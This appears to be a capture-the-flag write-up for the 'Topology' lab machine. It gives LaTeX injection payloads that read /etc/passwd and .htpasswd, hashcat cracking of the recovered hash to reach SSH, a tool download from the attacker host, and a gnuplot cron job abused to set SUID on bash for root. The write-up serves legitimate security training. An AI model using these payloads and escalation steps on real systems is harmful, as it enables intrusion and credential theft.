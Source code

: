 # topology

| Hostname   | Difficulty |
| ---        | ---        |
| topology       |            |

Machine IP: 10.10.10.xx :

```bash
TARGET=10.10.10.10       # topology IP address
ATTACKER=10.10.14.10     # attacker IP
```

## Initial Reconnaissance

### Ports and services

```bash
nmap -T4 topology.htb -p- -sC -sV
```

```text
Nmap scan report for topology.htb (10.10.11.217)
Host is up (0.020s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
|   256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_  256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Miskatonic University | Topology Group
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### HTTP service

firefox http://topology.htb &

![[Pasted image 20230701183250.png]]

We can notice a few users from Staff:

- Professor Lilian Klein, PhD: Head of Topology Group
- Vajramani Daisley, PhD: Post-doctoral researcher, software developer
- Derek Abrahams, BEng : Master's student, sysadmin

In the "Software projects" section, there is a link : "[LaTeX Equation Generator](http://latex.topology.htb/equation.php) - create .PNGs of LaTeX equations in your browser". This leads to a vhost : "http://latex.topology.htb/equation.php".

Nothing more if found here, but we can look at other virtual hosts :

```shell
wfuzz -H "Host: FUZZ.topology.htb" --hc 404,403 -H "User-Agent: PENTEST" -c -z file,/opt/seclists/Discovery/DNS/subdomains-top1million-5000.txt  topology.htb | grep -v "6767 Ch"
```

The grep here will remove most of pages returned with the size of 6767 Ch.

output :

```text
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://topology.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                      
=====================================================================

000000019:   401        14 L     54 W       463 Ch      "dev"
000000061:   200        5 L      9 W        108 Ch      "stats"
```

We can add this server to the hosts file :

```shell
echo "10.10.11.217 dev.topology.htb" >> /etc/hosts
echo "10.10.11.217 latex.topology.htb" >> /etc/hosts
echo "10.10.11.217 stats.topology.htb" >> /etc/hosts
```

When accessing with firefox the dev vhosts, this require an authentication :

![[Pasted image 20230701183946.png]]

the stats vhosts provide a graphic :

![[Pasted image 20230701184238.png]]

The latex vhost :

![[Pasted image 20230701184632.png]]

## Initial access

### Exploitation

From Hacktricks, we can build some [LateX Injection](https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection)

```latex
\input{/etc/passwd}
```

Give a message : "Illegalcommand detected. Sorry.". There is somr kind of filtering

But :

```latex
\lstinputlisting{/etc/passwd}
```

give an error :

```text
The image "http://latex.topology.htb/equation.php?eqn=%5Clstinputlisting%7B%2Fetc%2Fpasswd%7D&submit=" cannot be displayed because it contains errors.
```

Another resource ( https://gitlab.com/pentest-tools/PayloadsAllTheThings/-/tree/master/LaTeX%20Injection ) show example with `$` sign at the beginig and the end of the injection.

Trying :

```latex
$\lstinputlisting{/etc/passwd}$
```

Give a result :

![[Pasted image 20230701190856.png]]

We have user "vdaisley".

Since we can read files, we could try to read the `.htpasswd` file that should contains some credentials for the dev vhosts :


Trying to guess this file location, since the default html files are located in `/var/www/html/index.html`. This is probably an apache instance with the user "www-data". So:

```latex
$\lstinputlisting{/var/www/dev/.htpasswd}$
```

Give 

![[Pasted image 20230701191609.png]]

vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0

This hash format is specifyed by apache :
https://httpd.apache.org/docs/2.4/misc/password_encryptions.html

> MD5: "$apr1$" + the result of an Apache-specific algorithm using an iterated (1,000 times) MD5 digest of various combinations of a random 32-bit salt and the password.

This can be broken with :

```shell
hashcat -m 1600 '$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0' /usr/share/wordlists/rockyou.txt
```

```text
$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0:calculus20 
```

trying SSH with this credential :

```shell
ssh vdaisley@topology.htb
```

and we have a shell.

### Maintaining access

## Post-Exploitation

### Host Reconnaissance

```shell
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
updog
```

```shell
wget http://10.10.14.19:9090/pspy64
chmod +x ./pspy64
./pspy64
```

```text
2023/07/01 16:50:01 CMD: UID=0     PID=22239  | /usr/sbin/CRON -f 
2023/07/01 16:50:01 CMD: UID=0     PID=22238  | /usr/sbin/CRON -f 
2023/07/01 16:50:01 CMD: UID=0     PID=22241  | /usr/sbin/CRON -f 
2023/07/01 16:50:01 CMD: UID=0     PID=22242  | 
2023/07/01 16:50:01 CMD: UID=0     PID=22247  | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/01 16:50:01 CMD: UID=0     PID=22246  | /usr/sbin/CRON -f 
2023/07/01 16:50:01 CMD: UID=0     PID=22245  | /bin/sh -c /opt/gnuplot/getdata.sh 
2023/07/01 16:50:01 CMD: UID=0     PID=22251  | cut -d   -f3,7 
2023/07/01 16:50:01 CMD: UID=0     PID=22250  | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/01 16:50:01 CMD: UID=0     PID=22249  | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/01 16:50:01 CMD: UID=0     PID=22248  | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/01 16:50:01 CMD: UID=0     PID=22252  | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \; 
2023/07/01 16:50:01 CMD: UID=0     PID=22253  | gnuplot /opt/gnuplot/loadplot.plt 
2023/07/01 16:50:01 CMD: UID=0     PID=22257  | sed s/,//g 
2023/07/01 16:50:01 CMD: UID=0     PID=22256  | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/01 16:50:01 CMD: UID=0     PID=22255  | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/01 16:50:01 CMD: UID=0     PID=22254  | uptime 
2023/07/01 16:50:01 CMD: UID=0     PID=22258  | tail -60 /opt/gnuplot/netdata.dat 
2023/07/01 16:50:01 CMD: UID=0     PID=22259  | tail -60 /opt/gnuplot/loaddata.dat 
2023/07/01 16:50:01 CMD: UID=0     PID=22260  | gnuplot /opt/gnuplot/networkplot.plt 
```

`find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \;` is a search for plt files

This is follewed by `gnuplot /opt/gnuplot/loadplot.plt` supposing `loadplot.plt` has been found and is been executed.

### Privilege Escalation

From the documentation :
http://gnuplot.info/docs_5.5/loc18483.html

we can craft a payload :

```bash
cat <<EOF > /opt/gnuplot/xplot.plt
system "chmod +s /usr/bin/bash"
EOF
```

After some time, the payload is executed :

```bash
ls -l /usr/bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /usr/bin/bash
```

We can have a root shell:

```bash
bash -p
```
